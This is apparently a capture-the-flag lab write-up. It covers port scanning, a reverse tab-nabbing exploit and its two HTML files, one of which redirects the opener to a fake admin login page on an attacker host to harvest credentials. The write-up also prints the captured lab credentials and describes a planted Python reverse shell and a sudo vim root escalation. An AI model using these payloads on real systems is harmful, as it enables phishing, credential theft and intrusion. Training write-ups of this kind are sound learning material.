# Port Scanning
```bash
❯ rustscan -a 10.49.175.131 -- -A

Open 10.49.175.131:22
Open 10.49.175.131:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 8a:a7:1e:f2:d2:ce:05:5b:3e:6c:d6:30:1e:17:41:18 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDI2pJJgdlmMrDmQLnG4ErB0xEXHcx1Rp5vIx9syueuxA7gws5ZSMn8IrpJcb1KrZXRlIU9/sOr7iXVRn7ogGu4UwrMECQMK5pz2AqK2yBMmKGrvrWpCFUPq2xGbxAIi6JvXhfiL7Jy1EwwBqG/P9NVXwCYd6mE5AlaVD2SgyW2Eii/+bxcZzToCkjjg+zkjQhStIkg56IgOjjKWvHjyK61aEQoPJKYHZbuigq6XY4yO0gN11ENnC01MJ+Kt3899KhY2BPSUBQ9c574OGHmb1txgTYxQATLmIcaatCUZkSohJfugACCyC7r9Y4wT8zsGP5B2kxn4tHcPNhrzsrixFlOlM0AjbpA/RyC/d2mEGFqKgmK0lHRfo4bF+h/i3kDpSHrc8S9s37uzhRnHONJ8MPSpnRNYfUGDp2VtXKPV0dfYf2C8EsYybVgddTXEq45rRSzFmlGVWJZJ6+J7UrZ25GWTbj3i8lmz4GQBEnGEtRJzGZeHuHMcgeN6Bzt/+L/OIE=
|   256 5b:7e:11:04:17:d8:e7:16:0b:17:b7:20:07:b2:d7:41 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHE/gremHciILpmnFXasr7tU0r8KZf1depXgPRCeA1R2h1n3HtYpoB3uHpgcAt4ZLqo9HdAYkqQL269RMjSPsVI=
|   256 69:f7:e4:43:9e:dd:53:3f:f5:78:64:f4:4b:6c:23:57 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEPBOToD0PT/05fFN6w3FX9pGIEZo1QGRCRgnyfFPhY/
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Linux 5.X|6.X|4.X (96%), Google Android 10.X|11.X|12.X (93%)
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:4 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/o:linux:linux_kernel:5.4
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 4.15 (96%), Linux 5.4 - 5.15 (96%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%)
No exact OS matches for host (test conditions non-ideal).
```
Visited the website and found a login page. <br/>
 <br/>
I created an account via register page. <br/>
 <br/>
After login I found this page where to paste the url. And it is written admin checks the URL. <br/>
 <br/>
So I just put a regular site link and visited the source code. <br/>
 <br/>
I have found this line has tab nabbing vulnerability. <br/>
Details about it: https://hacktricks.wiki/en/pentesting-web/reverse-tab-nabbing.html <br/>
I also use dirsearch to find out the directory. <br/>
 <br/>
Reading the details from above link I created a exploit.
`first.html`
```html
<!DOCTYPE html>
<html>
 <body>
  <script>
  window.opener.location = "http://<attacker_ip>:9898/fake.html";
  </script>
 </body>
</html>
```
Then I have also created another file with the `/admin/login.php`
`fake.html`
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<body>
    <div class="wrapper">
        <h2>Admin Login</h2>
        <p>Please fill in your credentials to login.</p>


        <form action="/admin/login.php" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control " value="">
                <span class="invalid-feedback"></span>
            </div>    
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control ">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <br>
        </form>
    </div>
</body>
</html>
```
Now need to do following step by step <br/>
1. Open two terminal.
2. In one terminal open a http server on port 80.
3. In another terminal open http server on port 9898.
4. Open wireshark for packet capturing via VPN interface.
5. Paste `http://<attacker_ip>/first.html` and click submit.
6. Wait for the victim machine.
What actually happen:
- First the application will pass the `first.html` page to the admin.
- As `first.html` calls for the `/admin/login.php` page which is hosted at my attacking machine on port 9898. This will be presented to the admin.
- Admin will fill up the form with his credentials.
- I will receive the credential. And View it via wireshark.
 <br/>
```
username: daniel
password: C@ughtm3napping123
```
I used that credentials to login via ssh. <br/>
 <br/>
After login as daniel, I found another user named adrian. On adrian's home directory I have found an interesting file `query.py`. It has write permission to the administrator group.  <br/>
 <br/>
So I wrote a python reverse shell on that script. <br/>
 <br/>
And received a shell as user adrian. <br/>
 <br/>
For privilege escalation to root user I ran `sudo -l`. And vim has `/usr/bin/vim `has execute permission as root. So exploiting it I became ROOT! <br/>
 <br/>